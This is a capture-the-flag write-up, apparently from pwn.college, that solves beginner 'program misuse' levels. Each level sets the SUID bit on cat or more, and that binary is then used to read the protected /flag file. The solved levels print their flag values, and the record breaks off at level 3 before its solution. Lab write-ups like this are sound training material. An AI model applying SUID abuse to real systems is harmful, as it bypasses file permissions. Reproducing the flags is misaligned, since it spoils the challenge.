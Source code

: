 ## level1 Lets you directly read the flag!

```
hacker@program-misuse-level-1:/challenge$ ./babysuid_level1
Welcome to ./babysuid_level1!

This challenge is part of a series of programs that
exposes you to very simple programs that let you directly read the flag.

I just set the SUID bit on /usr/bin/cat.
Try to use it to read the flag!

IMPORTANT: make sure to run me (./babysuid_level1) every time that you restart
this challenge container to make sure that I set the SUID bit on /usr/bin/cat!
hacker@program-misuse-level-1:/challenge$
```
已经给我uid了，然后我直接读取即可
```
hacker@program-misuse-level-1:/$ ls
bin  boot  challenge  dev  etc  flag  home  lib  lib32  lib64  libx32  media  mnt  opt  proc  root  run  sbin  srv  sys  tmp  usr  var
hacker@program-misuse-level-1:/$ cat flag
pwn.college{gtmGRqQdewLiKKwB2Wi1NeBxX3w.01M0EDL2QjMyMzW}
hacker@program-misuse-level-1:/$
```

## level2 Lets you directly read the flag!

```
hacker@program-misuse-level-2:/challenge$ ./babysuid_level2
Welcome to ./babysuid_level2!

This challenge is part of a series of programs that
exposes you to very simple programs that let you directly read the flag.

I just set the SUID bit on /usr/bin/more.
Try to use it to read the flag!

IMPORTANT: make sure to run me (./babysuid_level2) every time that you restart
this challenge container to make sure that I set the SUID bit on /usr/bin/more!
hacker@program-misuse-level-2:/challenge$
```
这个是用 `more` 读取
```
hacker@program-misuse-level-2:/challenge$ more /flag
pwn.college{g0orxg7_IfgidrE5G2scOM8wdRx.0FN0EDL2QjMyMzW}
hacker@program-misuse-level-2:/challenge$
```

## level3 Lets you directly read the flag!

```
hacker@program-misuse-level-3:/challenge$ ./babysuid_level3
Welcome to ./babysuid_level3!

This challenge is part of a series of programs that
exposes you to very simple programs that let you directly read the flag.

I just set the SUID bit on /usr/bin/less.
Try to use it to read the flag!

IMPORTANT: make sure to run me (./babysuid_level3) every time that you restart
this challenge container to make sure that I set the SUID bit on /usr/bin/less!
hacker@program-misuse-level-3:/challenge$
```